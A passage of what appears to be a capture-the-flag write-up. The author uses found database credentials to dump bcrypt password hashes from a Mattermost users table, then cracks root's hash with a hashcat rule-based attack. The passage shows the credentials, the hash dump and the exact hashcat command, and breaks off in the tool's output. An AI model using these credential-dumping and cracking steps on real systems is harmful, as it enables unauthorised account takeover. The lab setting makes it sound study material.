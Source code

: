 Using the credentials found (**mmuser:Crack_The_MM_Admin_PW**) connected to **mattermost** database and, at users table, found some password hashes, being **root** the only with **system_admin** permissions.

```plaintext
MariaDB [mattermost]> select Username,Password,Roles from Users;
+----------------------------------+--------------------------------------------------------------+--------------------------+
| Username                         | Password                                                     | Roles                    |
+----------------------------------+--------------------------------------------------------------+--------------------------+
| jdoe                             | $2a$10$qmuCH.AHht/dUGLd8ZyxMOMeZl6nU67B5okAiC0Vx44isKs5y6nkq | system_user              |
| surveybot                        |                                                              | system_user              |
| c3ecacacc7b94f909d04dbfd308a9b93 | $2a$10$u5815SIBe2Fq1FZlv9S8I.VjU3zeSPBrIEg9wvpiLaS7ImuiItEiK | system_user              |
| 5b785171bfb34762a933e127630c4860 | $2a$10$3m0quqyvCE8Z/R1gFcCOWO6tEj6FtqtBn8fRAXQXmaKmg.HDGpS/G | system_user              |
| root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO | system_admin system_user |
| ff0a21fc6fc2488195e16ea854c963ee | $2a$10$RnJsISTLc9W3iUcUggl1KOG9vqADED24CQcQ8zvUm1Ir9pxS.Pduq | system_user              |
| channelexport                    |                                                              | system_user              |
| 9ecfb4be145d47fda0724f697f35ffaf | $2a$10$s.cLPSjAVgawGOJwB7vrqenPg2lrDtOECRtjwWahOzHfq1CoFyFqm | system_user              |
+----------------------------------+--------------------------------------------------------------+--------------------------+
```

As mentioned in the Internal Team, root's password wouldn't be in a dictionary-like RockYou but could be a variation of `PleaseSubscribe!` and that **``hashcat` rules** could be the way to crack it. After some research found the following syntax:

- Created a file `basicpwd.txt` containing string `PleaseSubscribe!`;
- Used the file `best64.rule` which has one of the most popular password variations.

Executing it directly with the correct hash type (3200 - bcrypt), was able to find the password **PleaseSubscribe!21**

```bash
$ hashcat -a 0 -m 3200 hash basicpwd.txt -r /usr/share/hashcat/rules/best64.rule
hashcat (v6.1.1) starting...

OpenCL API (OpenCL 1.2 pocl 1.6, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================
* Device #1: pthread-Intel(R) Xeon(R) CPU E5-2673 v4 @ 2.30GHz, 5847/5911 MB (2048 MB allocatable), 2MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 72

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 77

Applicable optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt

Watchdog: Hardware monitoring interface not found on your system.
```